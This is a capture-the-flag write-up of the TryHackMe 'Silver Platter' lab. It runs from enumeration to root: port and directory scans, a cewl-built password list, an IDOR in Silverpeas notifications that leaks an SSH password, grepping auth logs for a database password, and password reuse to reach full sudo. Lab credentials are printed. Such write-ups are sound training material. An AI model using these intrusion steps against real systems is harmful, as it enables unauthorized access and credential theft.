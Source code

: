 ```yaml
---
title: 'THM: Red SilverPlatter'
date: '2024-03-01'
category: 'thm'
tags: ['linux', 'nmap', 'ssh']
---
```


# Silver Platter (THM)

# Enumeration

## Nmap

```bash
PORT     STATE SERVICE    REASON         VERSION

22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ0ia1tcuNvK0lfuy3Ep2dsElFfxouO3VghX5Rltu77M33pFvTeCn9t5A8NReq3felAqPi+p+/0eRRfYuaeHRT4=
|   256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKecigNtiy6tW5ojXM3xQkbtTOwK+vqvMoJZnIxVowju

80/tcp   open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD

8080/tcp open  http-proxy syn-ack ttl 62
|_http-title: Error
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Tue, 08 Apr 2025 12:10:59 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>

```

## SSH(22)

```bash
ross㉿kali)-[~/thm/silverplatter]
└─$ ssh root@silverplatter.thm
The authenticity of host 'silverplatter.thm (10.10.52.56)' can't be established.
ED25519 key fingerprint is SHA256:WFcHcO+oxUb2E/NaonaHAgqSK3bp9FP8hsg5z2pkhuE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'silverplatter.thm' (ED25519) to the list of known hosts.
root@silverplatter.thm's password:

```

-   SSH uses password based Auth
-   since we have gotten the user name and password from the oops by the admin we have gained SSH

![image.png](../thm/silverplatterimages/image.png)

## HTTP(80)

### Dirsearch

```bash
Target: http://silverplatter.thm/

[13:47:37] Starting:
[13:47:49] 301 -  178B  - /assets  ->  http://silverplatter.thm/assets/
[13:47:49] 403 -  564B  - /assets/
[13:47:58] 301 -  178B  - /images  ->  http://silverplatter.thm/images/
[13:47:58] 403 -  564B  - /images/
[13:48:01] 200 -   17KB - /LICENSE.txt
[13:48:09] 200 -  771B  - /README.txt

```

### Vhosts

```bash
: Method           : GET
 :: URL              : http://silverplatter.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.silverplatter.thm
 :: Header           : User-Agent: PENTEST
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 14124
________________________________________________

:: Progress: [220560/220560] :: Job [1/1] :: 1769 req/sec :: Duration: [0:02:11] :: Errors: 0 ::

```

-   nothing was found with FF

## Website Features

![image.png](../thm/silverplatterimages/image_1.png)

-   Software Information: Silverpeas
-   Username Enumeration: scr1ptkiddy

## HTTP(8080)

![image.png](../thm/silverplatterimages/image_2.png)

![image.png](../thm/silverplatterimages/image_3.png)

-   using burp suite we was able to create a custom password list using cewl to find out his password was adipiscing

### we web crawled the site using the syntax below to create a custom password list

```jsx
cewl http://silverplatter.thm > custom_passwords.txt
```

![image.png](../thm/silverplatterimages/image_4.png)

-   oops looks like we could change the id of the notifications and the admin shares ssh password

```bash
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

# Post-Exploitation

## No sudo Privileges 😢

```bash
tim@silver-platter:~$ sudo -l
[sudo] password for tim:
Sorry, user tim may not run sudo on silver-platter.

```

## interesting Group - ADM

```bash
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)

```

## Users

-   There is another user name `tyler` on the machine

```bash
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)

```

![image.png](../thm/silverplatterimages/image_5.png)

## after finding this information we cd over to `/var/log/` and then grep out for passwords

```bash
grep -ir "password"
```

## this then shows us silverpeas starting up and using a password of `_Zd_zx7N823/`

```bash

auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD= _Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
auth.log.2:Dec 13 15:45:21 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:silverpeas-6.3.1
auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1

```

## Knowing this we check for password reuse and Tyler is still using the same password allowing us to again access to his account

```bash
tyler@silver-platter:/$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL

```

## From Tyler we run sudo -l to see what we can do and Tyler can do all sudo allowing us to just change user to root

```bash
root@silver-platter:/# whoami
root

```

![image.png](../thm/silverplatterimages/image_6.png)
